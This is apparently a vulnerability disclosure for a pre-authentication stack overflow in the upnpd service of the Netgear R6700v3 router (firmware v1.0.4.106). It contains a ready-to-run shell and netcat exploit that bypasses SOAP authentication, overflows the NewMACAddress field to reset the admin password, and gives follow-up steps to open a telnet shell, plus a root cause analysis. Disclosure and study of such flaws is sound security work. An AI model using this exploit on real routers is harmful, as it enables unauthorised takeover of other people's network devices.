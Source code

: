 # Pre-auth LAN RCE in Netgear R6700v3 v1.0.4.106

Disclosed is a pre-auth LAN RCE based on a stack overflow in the router from Netgear, model AC1750 R6700v3. This targets the firmware v1.0.4.106 and the vulnerable target binary is upnpd. This particular exploit against the vulnerability will not work against newer firmware versions.

## Details

The vulnerability is in the handling of requests to upnp, specifically a SOAPAction for setting a MAC address. This SOAPAction requires usually authentication, but as shown previously [1] the authentication can be bypassed by adding two SOAPActions `urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin` and `SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC` in order to bypass the authentication logic.

A long string provided in the `NewMACAddress` tag causes the buffer overflow. Details for this can be found below in the root cause analysis.

The following request, performs similar to [1] a password reset using a single gadget by jumping to the procedure `acosNvramConfig_set`, which is located at `0x39b30` in v1.0.4.106. The input password to acosNvramConfig_set will be `password`.

```
BODY='<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<NewMACAddress>'"$(printf 'a%.0s' {0..1016})"'\x30\x9b\x03</NewMACAddress>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>'
BODY_LEN=$(echo -n ${BODY} | wc -c )
echo -ne "POST soap/server_sa HTTP/1.0\r\nHost: 192.168.1.1:5000\r\nContent-Type: application/x-www-form-urlencoded\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC\r\nContent-Length: ${BODY_LEN}\r\n\r\n${BODY}" | nc -i 1 192.168.1.1 5000
```

Next, login to the web interface with the user admin and password `password`. Change the password, and run the well-known telnetenable tool [2] in order to open the telnet port and login to the router for shell access.

Summary:

1) Run the request with the exploit payload to reset the password
2) Login to the web interface with user admin and password `password`
3) Run telnetenable to gain shell access: ./telnetenable <router_ip> <router_lan_port_mac> admin <new_password>

## Root cause analysis
The root cause exists in the function at address 0x3b8f8 in v1.0.4.106. The relevant pseudo-code is:
```
   ..
   .
   v61 = stristr(v13, "NewMACAddress");
    if ( v61 )
    {
      v62 = (const char *)(stristr(v13, "NewMACAddress xsi:type=\"xsd:string\">") ? v61 + 36 : v61 + 14);
      strncpy(byte_DB00C, "", 0x13u);
      v63 = stristr(v13, "</NewMACAddress>");
      if ( v63 )
      {
        v64 = v63 - (_DWORD)v62;
        strncpy(byte_DB00C, "", 0x13u);
        strncpy(byte_DB00C, v62, v64);
        byte_DB00C[v64] = 0;
        sub_C310(3, "NewMACAddress = %s\n", byte_DB00C);
      }
    }
    .
    ..
```
which performs a copy to a memory location without any size limitations in `strncpy(byte_DB00C, v62, v64)`.

## References
[1] https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md

[2] https://github.com/insanid/NetgearTelnetEnable
